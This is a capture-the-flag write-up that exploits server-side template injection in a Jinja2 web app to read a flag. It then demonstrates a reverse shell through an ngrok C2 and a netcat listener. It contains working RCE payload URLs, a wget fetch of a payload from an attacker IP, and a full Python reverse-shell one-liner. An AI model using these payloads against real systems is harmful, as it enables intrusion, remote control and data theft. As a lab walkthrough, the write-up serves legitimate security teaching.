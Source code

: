 # Super Space Tech Inc

## Challenge Description
Our engineers have found that one of the python web applications have been infiltrated. Try to find what the attackers have hidden!
http://chall.seccomp.xyz:5003/


## Walkthrough
Going to the challenge home page, it shows only a link (Jarvis). This link displays the following text: “Hi, Javis”. Note that the url accepts the parameter “name” and the default input is “Javis”.

![alt text](img/Picture1.png)
![alt text](img/Picture2.png)

The output appears to be printed from a template. This template is as follows:
“Hi, {name}”, where the variable “name” is the url input. 
To verify, we can inject our own input.

![alt text](img/Picture3.png)



Our input is displayed successfully. A vulnerability called Server Side Template Injection (SSTI) could be present in this web app. SSTI is a critical vulnerability as it enables the attacker to inject malicious inputs into a template and execute server side. Potential threats include unauthorised file disclosure and arbitrary code execution. The challenge title also gives a hint that it is SSTI (**S**uper **S**pace **T**ech **I**nc).

A simple test to detect SSTI is to perform a mathematical evaluation and verify if the input is rendered and reflected in the output. Inserting the input “{{7*7}}” into the url parameter prints the output of 49, confirming the existence of SSTI.
![alt text](img/Picture4.png)



In order to use the correct payload, we will need to identify the template engine. By injecting an invalid payload, an error will trigger and the engine is identified. However if the error messages are suppressed, we will need to inject language-specific payloads. Fortunately, PortSwigger has a decision tree for us to refer to: https://portswigger.net/research/server-side-template-injection
![alt text](img/Picture5.png)



In this challenge, all of these are unnecessary as the description states it is running a python web server (Jinja2).

SSTI Payloads can be found in PayloadsAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)

We will use the following payload to execute the “id” command via Remote Code Execution (RCE) in Jinja2 syntax
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
![alt text](img/Picture6.png)



The command is executed successfully.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27id%27).read()%20}}
```
![alt text](img/Picture7.png)



List files in the directory using “ls” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27ls%27).read()%20}}
```
![alt text](img/Picture8.png)



The flag.txt is discovered in the directory. Obtain the flag using “cat” command.
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}
```
![alt text](img/Picture9.png)

The flag obtained is **CZ4067{3xp1oiT_sStI}**.


## Taking a step further from REMOTE CODE EXECUTION (RCE)
The implications of a vulnerability leading to a RCE is catastrophic as it gives the attackers the ability to perform arbitrary code execution, including system commands.
Once obtaining RCE, an attacker will typically attempt to gain backdoor access into the victim’s machine to perform more malicious actions. We will demonstrate a simple Backdoor POC for the purpose of educating others on the impacts of RCE.

### Creating our payload
A common method of gaining backdoor access in Linux is to transfer a malicious payload into the victim machine via **curl** or **wget** command. However, it is discovered that neither commands are installed in this machine.

Curl command to http://google.com
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27curl%20http://google.com%27).read()%20}}
```

Wget command from attacker machine
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27wget%20http://AttackerIP/payload.exe%27).read()%20}}
```
![alt text](img/Picture10.png)

Fortunately, as this is a Linux machine, it will typically have Python installed. We can use the **socket.connect()** method from Python’s socket library, which establishes a TCP connection to a server. This will be our reverse shell payload.

### Setting up C2 Server and Kali netcat for listening
As the connection is made over the Internet, we will need to set up Port Forwarding in our own network. However, this will cause security issues as our Public IP Address will be disclosed. Thus, we will set up a Command and Control (C2) Server using **ngrok**. Signing up is required and installation can be found in the website: https://ngrok.com/download

Once ngrok is installed in our Kali Linux machine, we run the following command:
```console
$ ngrok tcp <internal port>
```
In this test, the internal port used is **6969**.

The service will start and traffic is now forwarded from ngrok service to our localhost
![alt text](img/Picture11.png)

Next, set up **netcat** to listen for incoming connection
```console
$ nc -lvnp 6969
```

### Executing reverse shell
The following command will be injected into the Web Server:
```console
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ngrokIP",externalport));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

In summary, the Web Server will establish a connection with our C2 Server, before spawning a bash process. In this example, ngrokIP is **0.tcp.ap.ngrok.io** and externalport is **17897**.

This will be the resulting RCE command:
```
http://chall.seccomp.xyz:5003/read?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27python%20-c%20\%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%220.tcp.ap.ngrok.io%22,17897));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)\%27%27).read()%20}
```

In our Kali Linux machine, a shell terminal is opened and we can interact with the Web Server directly.
![alt text](img/Picture12.png)

Having a direct connection to the victim’s machine allows the attacker to proceed with his kill chain. He can perform post-exploitation methods including but not only:
- Enumeration for Privilege Escalation, gaining root access to the machine
- Data Exfiltration
- Persistency in the machine
- Pivoting into exploiting other machines within the network

